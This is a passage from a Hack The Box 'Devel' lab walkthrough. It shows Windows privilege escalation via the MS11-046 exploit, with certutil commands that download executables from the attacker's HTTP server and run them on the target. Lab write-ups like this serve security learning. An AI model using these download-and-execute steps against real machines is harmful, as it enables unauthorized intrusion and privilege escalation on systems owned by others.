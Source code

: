 > **Victime Machine**:

```cmd
certutil.exe -f -urlcache -split http://10.10.14.84/JP.exe JP.exe
.\JP.exe
# This version of C:\Windows\Temp\privesc\JP.exe is not compatible with the version of Windows you're running. :(
```

<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

If I continue with the enumeration, I check with `systeminfo` that the **OS version** is very old and if I search in **ExploitDB** some exploit for this version I find one that **[exploits the MS11-046 vulnerability](https://www.exploit-db.com/exploits/40564){:target="_blank"}**, but the one in its database needs to be compiled and many times it is a **headache** to do this task. Good thing I found a **[ms11-046.exe](https://github.com/abatchy17/WindowsExploits){:target="_blank"}** exploit on **Github** that has the executable ready to download, I just need to download it, transfer it to the target machine and run it to **Escalate privileges**. Once I take full control of the box I can see the contents of the flags I need to enter on the **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** platform.

> **[Microsoft Security Bulletin MS11-046](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2011/ms11-046){:target="_blank"}** - Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege (2503665). The vulnerability could allow **elevation of privilege** if an attacker logs on to a user's system and runs a specially crafted application. An attacker must have valid logon credentials and be able to log on locally to exploit the vulnerability. 

> **Victime Machine**:

```cmd
systeminfo
# OS Version:                6.1.7600 N/A Build 7600
```

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/MS11-046.exe .
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
certutil.exe -f -urlcache -split http://10.10.14.84/MS11-046.exe ms11-046.exe
.\ms11-046.exe
whoami
# :):):)
```
